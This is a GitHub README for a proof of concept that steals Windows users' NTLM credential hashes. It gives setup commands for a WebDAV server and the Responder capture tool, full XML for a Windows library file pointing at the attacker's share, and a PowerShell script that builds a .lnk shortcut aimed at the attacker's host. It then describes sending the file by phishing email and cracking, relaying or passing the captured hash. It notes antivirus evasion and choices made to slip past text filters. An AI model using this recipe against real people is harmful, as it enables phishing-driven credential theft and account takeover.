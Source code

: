 # lnk-with-Webdav-POC
Windows Defender and Avira AV Does not flag the Lnk as malicious.
### Tested on
```
Windows 10 Pro
BuildNumber     : 19045
Version         : 10.0.19045

Windows 11
BuildNumber     : 22000
Version         : 10.0.22000
```
 ## Youtube Demo 📹
 https://youtu.be/-sw7Sdkfh-U
### Requirements ⚙️
* Python3

### Setup 🛠️
<b> On the kali linux attacker machine, on the terminal</b> <br />
```
pip3 install wsgidav
mkdir /home/kali/webdav

Running the wsgidav hosted on /home/kali/webdav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/ 
```
<b> On the kali linux attacker machine, on a new tab of the terminal. run responder to capture NTLM hash</b> <br />
```
responder -I eth0 -dwFP -v
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c1f59930-d518-4fa1-9cd2-4f42799c80d5)

Ensure that SMB server is on

![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/1715fa7b-bf04-4c1a-97e1-7e967ddab24f)

### On windows attacker machine

## Creating the Window library file to connect to our webdav share. 
This file can be used as a virtual containers to carry our payloads to avoid suspicions. 
we can use Notepad or any text editor could also be used to create the file.

We can save the file HRFolder.
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c660329d-b3db-4fca-be8a-5f429461f8f4)

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. The parts are General library information, Library properties, and Library locations. Let's build the XML code by adding and explain the tags. We can refer to the Library Description Schema6 for further information. We'll begin by adding the XML and library file's format version.
The listing below contains the namespace7 for the library file. This is the namespace for the version of the library file format starting from Windows 7. The listing also contains the closing tag for the library description. All of the following tags we cover will be added inside the libraryDescription tags.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
</libraryDescription>
```
Next, we'll add two tags providing information about the library. The name tag specifies the name of this library. We must not confuse this with an arbitrary name we can just set randomly. 
We need to specify the name of the library by providing a DLL name and index. We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. 
We'll use the latter to avoid any issues with text-based filters that may flag on "shell32". 
The version tag can be set to a numerical value of our choice, for example, 7.
```
<name>@windows.storage.dll,-34582</name>
<version>7</version>
```
Name and Version Tags of the Library

Next, we'll add the isLibraryPinned tag. This element specifies if the library is pinned to the navigation pane in Windows Explorer. 
The next tag we'll add is iconReference, which determines what icon is used to display the library file. We must specify the value in the same format as the name element. 
We can use imagesres.dll to choose between all Windows icons. We can use index "-1002" for the Documents folder icon.
```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1002</iconReference>
```


The next tag marks the beginning of the library locations section. In this section, we specify the storage location where our library file should point to. We'll begin by creating the searchConnectorDescriptionList, tag which contains a list of search connectors defined by searchConnectorDescription. 
Search connectors are used by library files to specify the connection settings to a remote location. 

We can specify one or more searchConnectorDescription elements inside the searchConnectorDescriptionList tags. 
For this example we only specify one. If we used more than 1 folder, it will display contents from other folders as well making it look more legitimate.
Inside the description of the search connector, we'll specify information and parameters for our WebDAV share. The first tag we'll add is the isDefaultSaveLocation tag with the value set to true. 
This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, we'll set it to true. Next, we'll add the isSupported tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. We can set it to false.

**The most important tag is url,which we need to point to our previously-created WebDAV share over HTTP. It is contained within the simpleLocation tags, which we can use to specify the remote location in a more user-friendly way as the normal locationProvider element.**
```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<your webdav share url></url></simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```
The entire XML would look something like this
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>7</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.1.67</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
## Creating the Windows shortcut payload using powershell
Run this on powershell to create the shortcut on your desktop, change the $shortcutPath accordingly 
```
$targetPath = "\\192.168.1.67\test"
$shortcutPath = "C:\Users\JJ\Desktop\HRdocuments.lnk"

# Create a WScript.Shell object 
$shell = New-Object -ComObject WScript.Shell
 # Create a shortcut object 
$shortcut = $shell.CreateShortcut($shortcutPath)
 # Set the target path of the shortcut
 $shortcut.TargetPath = $targetPath
 # Save the shortcut 
$shortcut.Save()
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/455d1c59-c587-49b1-8085-87cbf52687ef)

### Next, we could move the .lnk inside the webdav share directory
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/eb2f568c-06d1-4caa-a248-06d89dbd132a)

# Send the Windows library file to the victim, for e.g phishing email.
Giving instructions for the user to click on the hr folder, and the windows shortcut.
The responder should be able to harvest the credentials hash successfully.
# We can then either crack the hash for the user password or we can relay them to a tool like ntlmrelayx, or pass the hash directly for authentication as potential exploitations
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/154a6e66-51cb-4b7c-a0cc-233959918bcd)
_responder's captured credentials NTLMv2_

## Using hashcat to crack the NTLM hash recovered
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/2c926b5a-bb79-45b6-820b-650dd96d8df7)
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/b9b70946-b037-49dc-a334-d86cf4dcd92a)



